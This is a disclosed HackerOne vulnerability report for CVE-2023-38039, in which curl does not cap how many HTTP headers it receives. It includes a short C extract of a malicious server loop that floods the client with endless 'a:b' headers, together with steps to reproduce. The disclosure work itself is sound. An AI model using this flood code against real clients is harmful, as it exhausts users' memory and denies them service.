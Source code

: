 # CVE-2023-38039: HTTP header allocation DOS

## Report Details
- **Report ID**: 2072338
- **URL**: https://hackerone.com/reports/2072338
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-17T12:43:20.354Z
- **Disclosed**: 2023-09-13T12:43:27.619Z

## Reporter
- **Username**: selmelc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
It was found that curl does not currently limit the amount of HTTP headers to be received leading to a potential DOS for the users.
If an attacker sets up a malicious HTTP server that continuously sends new headers and keeps the socket open, curl will continuously listen on the socket and parse new received headers. This leads to the user's machine allocating more and more resources until the system is eventually exhausted.
From research the vulnerable function seems to be located at https://github.com/curl/curl/blob/master/lib/transfer.c#L420.
For comparison, modern browsers abort the connection once they reach a threshold.
One potential fix to not affect functionality too much would be to set an arbitrary limit to the amount of headers to receive, which I believe is the solution adapted by most modern browsers to solve this issue.

## Screenshot 
{F2513231}
My excuses for the French in screenshot (I'm sorting programs by RAM usage, and the top one is of course the windows terminal from which I executed curl). On there you can see my user terminal (windows) launching `curl 127.0.0.1:80` to the left, on the right we see the attacker's server (attaching full source code to this report). Throughout testing memory usage kept increasing alarmingly high.

## Malicious server code extract:
```
void send_payload(int fd)
{
	memset(speedup, 'a', sizeof(speedup));
	//first we send the start of a valid HTTP request with status line and a few headers
    send(fd, validreq, sizeof(validreq), MSG_MORE);	
	while (1337)
	{
		//this is used to speed up the dos process sending extra bytes
		send(fd, speedup, sizeof(speedup), MSG_MORE );
		//now we're spamming the curl client with the header "a:b" then telling it there's more to come !
		send(fd, "a:b\x0d\x0a", 5, MSG_MORE );
	}
}
```

## Steps To Reproduce:
  1. Compile exploit.c and execute the server binary.
Note: depending on your system, feel free to play with the `ATTACK_SPEED` define of the code, to speed up testing.
  2. Open up another terminal and as the victim try `curl 127.0.0.1:80`
  3. Observe system metrics.

## Impact

DOS/overloading of user's system through malicious HTTP server interaction with curl's header parsing.

## Attachments
- curldos.PNG
- exploit.c
